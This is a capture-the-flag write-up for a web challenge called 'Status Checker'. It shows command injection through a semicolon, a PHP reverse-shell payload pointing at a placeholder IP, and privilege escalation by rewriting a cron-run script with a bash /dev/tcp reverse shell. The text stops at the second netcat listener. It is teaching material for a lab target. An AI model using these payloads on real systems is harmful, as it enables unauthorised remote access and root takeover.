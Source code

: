 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![[[wimg-1](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/2172799693442df396d9857becae25e70e1ca596/challenges/web/Status%20Checker/images/wimg-1.png)]]

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![[wimg-2]]

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![[wimg-3]]

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![[wimg-4]]

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![[wimg-5]]

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. Navigating to the ``/var/www/`` directory and we can see 2 files.

The files are:
- backup.sh - Owned by the root user.
- my-script.sh - Owned by the www-data user.

![[wimg-6]]

We can see that the ``backup.sh`` file runs the ``my-script.sh`` file as sudo, effectively running as the root user.

Using the command ``cat /etc/crontab``, we can see that there is a cronjob that runs the ``backup.sh`` file every minute. We can abuse this by changing the contents of the ``my-script.sh`` file.

As we own the ``my-script.sh`` file, we can modify it to spawn a reverse shell using the following commands:

```
echo '#/bin/bash' > my-script.sh
echo 'bash -i >& /dev/tcp/YOUR-IP-HERE/PORT-HERE 0>&1' >> my-script.sh
```

Replace ``YOUR-IP-HERE`` with your IP address and ``PORT-HERE`` with your desired port number. Once done, start another netcat listener on the port that was chosen in the above command. In this example, it will be 45102 as seen in the following screenshot.

![[wimg-7]]


